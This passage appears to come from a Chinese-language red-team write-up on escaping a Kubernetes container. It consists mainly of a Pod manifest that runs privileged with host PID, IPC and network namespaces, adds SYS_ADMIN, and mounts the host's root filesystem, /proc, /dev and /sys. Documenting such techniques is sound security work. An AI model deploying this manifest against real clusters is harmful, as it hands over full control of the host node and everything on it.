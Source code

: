 ![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665460172409-6a245870-7eeb-440f-bce7-ad84dc03ad9c.png)

成功逃逸到宿主机Node节点上，还可以挂载更多权限与目录，利用

```plain
#attack2.yaml
apiVersion: v1
kind: Pod
metadata:
  name: neartest
  labels:
    team: tencent-redteam
    creator: neargle
spec:
  hostPID: true
  hostIPC: true
  hostNetwork: true
  nodeSelector:
    #kubernetes,io/hostname需先查看pod所在的节点进行修改
    #kubectl get pods -o wide
    kubernetes.io/hostname: VM-0-3-centos
  containers:
  - name: trpc
    image: "alpine"
    #imagePullPolicy: "Never"
    securityContext:
      privileged: true
      capabilities:
        add:
        - SYS_ADMIN
    command: ["/bin/sh","-c","tail -f /dev/null"]
    volumeMounts:
    - mountPath: /host/dev
      name: dev
    - mountPath: /host/proc
      name: proc
    - mountPath: /host/sys
      name: sys
    - mountPath: /near_sandbox
      name: rootfs
  volumes:
    - name: proc
      hostPath:
        path: /proc
    - name: dev
      hostPath:
        path: /dev
    - name: sys
      hostPath:
        path: /sys
    - name: rootfs
      hostPath:
        path: /
```
